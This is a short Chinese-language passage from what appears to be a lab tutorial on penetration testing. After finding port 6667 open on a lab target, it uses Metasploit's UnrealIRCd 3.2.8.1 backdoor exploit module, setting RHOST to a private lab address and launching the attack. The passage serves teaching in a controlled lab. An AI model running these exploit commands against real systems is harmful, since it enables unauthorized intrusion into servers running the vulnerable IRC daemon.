 查到 `6667` 端口是开放的，下面我们使用端口 `6667` 进行演示：

进入 `msfconsole` ，接着利用 `use` 命令使用模块：
```
use exploit/unix/irc/unreal_ircd_3281_backdoor
```

![图片描述](../imgs/1479716780123.png-wm.png)

接着在终端中，输入命令，设置攻击的目标靶机：

```
set RHOST 192.168.122.102

```
然后进行攻击：

```
exploit
```
![实验楼](../imgs/2120081479716957093-wm.png)
